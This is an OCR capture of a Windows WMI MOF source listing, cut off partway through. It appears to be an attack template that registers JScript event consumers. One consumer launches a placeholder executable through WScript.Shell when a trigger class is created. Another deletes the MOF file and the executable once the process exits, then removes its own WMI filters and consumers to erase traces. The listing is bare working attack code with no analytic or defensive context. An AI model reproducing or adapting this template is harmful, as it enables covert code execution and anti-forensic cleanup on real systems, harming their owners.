 

      1 #pragma namespace("\\\\.\\root\\cimv2")
      2 class MyClass12588
      3 {
      4         [key] string Name;
      5 };
      6 class ActiveScriptEventConsumer : __EventConsumer
      7 {
      8         [key] string Name;
      9         [not_null] string ScriptingEngine;
     10         string ScriptFileName;
     11         [template] string ScriptText;
     12   uint32 KillTimeout;
     13 };
     14 instance of __Win32Provider as $P
     15 {
     16     Name  = "ActiveScriptEventConsumer";
     17     CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
     18     PerUserInitialization = TRUE;
     19 };
     20 instance of __EventConsumerProviderRegistration
     21 {
     22   Provider = $P;
     23   ConsumerClassNames = {"ActiveScriptEventConsumer"};
     24 };
     25 Instance of ActiveScriptEventConsumer as $cons
     26 {
     27   Name = "ASEC";
     28   ScriptingEngine = "JScript";
     29   ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"@EXE@\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass12588\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");}       catch(err) {};";
     30
     31 };
     32 Instance of ActiveScriptEventConsumer as $cons2
     33 {
     34   Name = "qndASEC";
     35   ScriptingEngine = "JScript";
     36   ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\a.mof\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"@EXE@\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.       Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
     37 };
     38 instance of __EventFilter as $Filt
     39 {
     40   Name = "instfilt";
     41   Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass12588\"";
     42   QueryLanguage = "WQL";
     43 };
     44 instance of __EventFilter as $Filt2
     45 {
     46   Name = "qndfilt";
     47   Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"@EXE@\"";
     48   QueryLanguage = "WQL";
     49
     50 };
     51 instance of __FilterToConsumerBinding as $bind
     52 {
     53   Consumer = $cons;